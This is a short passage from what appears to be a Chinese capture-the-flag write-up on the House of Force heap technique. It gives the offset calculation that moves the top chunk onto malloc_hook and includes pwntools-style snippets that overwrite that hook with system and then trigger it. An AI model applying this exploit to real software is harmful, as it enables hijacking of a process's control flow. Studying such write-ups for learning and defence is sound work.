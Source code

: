 [![](assets/1701612371-75fc06ceca0161c19d5758eb8eeaebf6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145821-aaae3fec-17dc-1.png)  
原本的top chunk地址加上实际上要分配的大小等于新的top chunk地址  
所以offset=fake\_addr-0x10-0x10-top\_chunk\_addr  
offset=(malloc\_hook-0x20)-top\_chunk\_addr  
申请一下对应偏移的chunk就可以把top\_chunk扩展到fake\_chunk了  
然后直接申请后打就行了

```plain
add(offset,'kkk')
add(0x10,p64(system))
```

[![](assets/1701612371-3a339149860a645ddee1f201bca15576.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145844-b86d1d1a-17dc-1.png)

```plain
p.recvuntil("2:puts\n")
p.sendline('1')
p.recvuntil("size\n")
p.sendline(str(top_chunk_addr))
```

[![](assets/1701612371-2d51694248704a9c8bf05617e1f93d9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145857-bff60664-17dc-1.png)
